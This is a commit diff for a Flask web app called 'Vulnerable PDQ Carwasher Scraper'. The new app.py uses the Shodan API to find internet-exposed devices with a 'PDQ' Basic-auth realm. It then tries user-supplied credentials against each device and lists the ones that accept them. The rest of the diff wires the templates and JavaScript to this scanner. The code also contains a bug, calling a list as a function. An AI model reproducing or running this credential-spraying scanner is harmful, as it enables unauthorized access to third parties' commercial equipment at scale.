

Before and after one commit to Zerrissen/pdq-scraper, a Flask app: page / in a window 1280 px wide. Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
lots Changes to be committed: 	modified:   .gitignore 	modified:   app.py 	new file:   static/dist/javascript/form_funcs.js 	new file:   static/dist/javascript/update_results.js 	renamed:    static/dist/css/tailwind.css -> static/dist/styles/tailwind.css 	modified:   templates/index.html

```diff
--- a/app.py
+++ b/app.py
@@ -1,4 +1,39 @@
-from flask import Flask, render_template, request, json
+import json
+import time
+
+import requests
+import shodan
+from flask import Flask, json, render_template, request
+from requests.models import HTTPBasicAuth
+
+def call_api(api, query, user, passw, pageCount):
+    # get all pages from pageCount
+    page = 1
+    pages = []
+    while page <= int(pageCount):
+        print('doing things')
+        try:
+            pages.append(api.search(query, page=page))
+            page += 1
+        except shodan.APIError as e:
+            print(f'Error: {e}')
+            return [e] # return as list due to html template looking for iterable
+    # filter through all pages/test creds
+    instanceResults = []
+    for instance in pages():
+        for match in instance:
+            try:
+                print(match)
+                res = requests.get(f'https://{user}:{passw}@{match["ip_str"]}:{match["port"]}')
+                if res.status_code == 200: # successful
+                    instanceResults.append(match)
+                    #textResults.append('http://' + user + ':' + passw + '@' + instance['ip_str'] + ':' + str(instance['port']))
+            except requests.exceptions.ConnectionError as e:
+                print(f'Connection Error: {e}')
+
+    # return results
+    jsonInstanceResults = json.dumps(instanceResults)
+    return jsonInstanceResults
 
 app = Flask(__name__)
 
@@ -13,10 +48,12 @@
         return index()
     else:
         api_key = request.form['shodan-api-key']
-        return render_template('index.html', api_key=api_key)
-
-def handle_data():
-    return json.dumps({'api_key': request.form['shodan-api-key-input']})
+        api = shodan.Shodan(api_key)
+        query = 'WWW-Authenticate: Basic Realm="PDQ"'
+        user = request.form['username']
+        passw = request.form['password']
+        pageCount = request.form['page-count']
+        return render_template('index.html', query_results=call_api(api, query, user, passw, pageCount))
 
 if __name__ == '__main__':
     app.run(debug=True)
--- /dev/null
+++ b/static/dist/javascript/form_funcs.js
@@ -0,0 +1,18 @@
+function toggleVisibility() {
+    let input = document.getElementById("shodan-api-key-input");
+    let button = document.getElementById("show-hide-button");
+    if (input.type === "password") {
+        input.type = "text";
+        button.innerText = "Hide Key";
+        input.placeholder = "1234567890";
+    } else {
+        input.type = "password";
+        button.innerText = "Show Key";
+        input.placeholder = "**********";
+    }
+}
+
+function clearKey() {
+    let input = document.getElementById("shodan-api-key-input");
+    input.value = "";
+}
--- a/templates/index.html
+++ b/templates/index.html
@@ -5,36 +5,16 @@
     <meta charset="UTF-8">
     <meta http-equiv="X-UA-Compatible" content="IE=edge">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <link rel="stylesheet" href="{{ url_for('static',filename='dist/css/tailwind.css') }}">
+    <link rel="stylesheet" href="{{ url_for('static',filename='dist/styles/tailwind.css') }}">
     <title>PDQ Scraper</title>
-
-    <script>
-        function toggleVisibility() {
-            let input = document.getElementById("shodan-api-key-input");
-            let button = document.getElementById("show-hide-button");
-            if (input.type === "password") {
-                input.type = "text";
-                button.innerText = "Hide Key";
-                input.placeholder = "1234567890";
-            } else {
-                input.type = "password";
-                button.innerText = "Show Key";
-                input.placeholder = "**********";
-            }
-        }
-
-        function clearKey() {
-            let input = document.getElementById("shodan-api-key-input");
-            input.value = "";
-        }
-    </script>
+    <script src="{{ url_for('static',filename='dist/javascript/form_funcs.js') }}"></script>
+    <!-- <script src="{{ url_for('static',filename='dist/javascript/update_results.js') }}"></script> -->
 </head>
 
 <body>
-    <div class="mt-11">
-        <div>
-            <h1 class="text-blue-600 text-center text-3xl">Vulnerable PDQ Carwasher Scraper</h1>
-            <div class="justify-center flex mt-20">
+    <div class="flex flex-col md:flex-row md:mx-0 mx-2 h-screen">
+        <div class="m-auto">
+            <h1 class="text-blue-600 text-3xl">Vulnerable PDQ Carwasher Scraper</h1>
             <form class="w-full max-w-lg" action="{{ url_for('scrape') }}" method="post">
                 <div class="flex flex-wrap -mx-3 mb-6">
                     <div class="w-full px-3">
@@ -44,12 +24,11 @@
                         </label>
                         <input
                             class="appearance-none block w-full bg-gray-200 text-gray-700 border border-gray-200 rounded py-3 px-4 mb-3 leading-tight focus:outline-none focus:bg-white focus:border-gray-500"
-                                id="shodan-api-key-input" name="shodan-api-key" type="password"
-                                placeholder="**********">
-                            <button class="bg-blue-500 text-white px-3 py-1 rounded-md hover:bg-blue-600 duration-200"
+                            id="shodan-api-key-input" name="shodan-api-key" type="password" placeholder="**********">
+                        <button class="bg-blue-500 text-white px-4 py-2 rounded-md hover:bg-blue-600 duration-200"
                             type="button" onclick="clearKey()">Clear</button>
                         <button id="show-hide-button"
-                                class="bg-blue-500 text-white px-3 py-1 rounded-md hover:bg-blue-600 duration-200"
+                            class="bg-blue-500 text-white px-4 py-2 rounded-md hover:bg-blue-600 duration-200"
                             type="button" onclick="toggleVisibility()">Show
                             Key</button>
                     </div>
@@ -62,7 +41,7 @@
                         </label>
                         <input
                             class="appearance-none block w-full bg-gray-200 text-gray-700 border border-gray-200 rounded py-3 px-4 mb-3 leading-tight focus:outline-none focus:bg-white focus:border-gray-500"
-                                id="username" type="text" placeholder="admin">
+                            id="username" name="username" type="text" placeholder="admin">
                     </div>
                     <div class="w-full md:w-1/2 px-3">
                         <label class="block uppercase tracking-wide text-gray-700 text-xs font-bold mb-2"
@@ -71,17 +50,45 @@
                         </label>
                         <input
                             class="appearance-none block w-full bg-gray-200 text-gray-700 border border-gray-200 rounded py-3 px-4 mb-3 leading-tight focus:outline-none focus:bg-white focus:border-gray-500"
-                                id="password" type="text" placeholder="password123">
+                            id="password" name="password" type="text" placeholder="password123">
+                    </div>
+                    <div class="w-full md:w-1/2 px-3">
+                        <label class="block uppercase tracking-wide text-gray-700 text-xs font-bold mb-2"
+                            for="page-count">
+                            Pages
+                        </label>
+                        <input
+                            class="block w-full bg-gray-200 text-gray-700 border border-gray-200 rounded py-3 px-4 mb-3 leading-tight focus:outline-none focus:bg-white focus:border-gray-500"
+                            type="number" placeholder="1" type="number" id="page-count" name="page-count" step="1"
+                            min="1" value="1">
                     </div>
                 </div>
                 <button
-                        class="flex mx-auto bg-green-600 text-white px-5 py-1 rounded-md hover:bg-green-700 duration-200"
+                    class="flex mx-auto bg-green-600 text-white px-6 py-2 rounded-md hover:bg-green-700 duration-200"
                     type="submit">Scrape!</button>
             </form>
         </div>
-            {% if api_key %}
+        <!-- <div class="m-auto  left-1/2 -ml-0.5 w-0.5 h-5/6 bg-gray-200 "></div> -->
+        <div class="m-auto">
+            <h1 class="text-center">Results</h1>
+            <textarea class="bg-gray-200 resize-none w-full p-2" cols="50" rows="10" readonly="true">
+                {%- if query_results -%}
+                {%- for result in query_results -%}
+                {{ result }}
+                {%- endfor -%}
+                {%- endif -%}
+            </textarea>
+            <button
+                class="bg-blue-500 hover:bg-blue-600 text-white py-2 px-4 rounded inline-flex items-center duration-200">
+                <svg class="fill-current w-4 h-4 mr-2" xmlns="http://www.w3.org/2000/svg" viewBox="0 0 20 20">
+                    <path d="M13 8V2H7v6H2l8 8 8-8h-5zM0 18h20v2H0v-2z" />
+                </svg>
+                <span>Download JSON</span>
+            </button>
+            <!-- {% if api_key %}
             <h1>I DID IT!</h1>
-            {% endif %}
+            {% endif %} -->
+        </div>
     </div>
     </div>
 
```
Also changed, not shown: static/dist/javascript/update_results.js (added, +18 -0 lines), static/dist/styles/tailwind.css, 1 other file. Lines whose indentation alone changed are shown as unchanged.
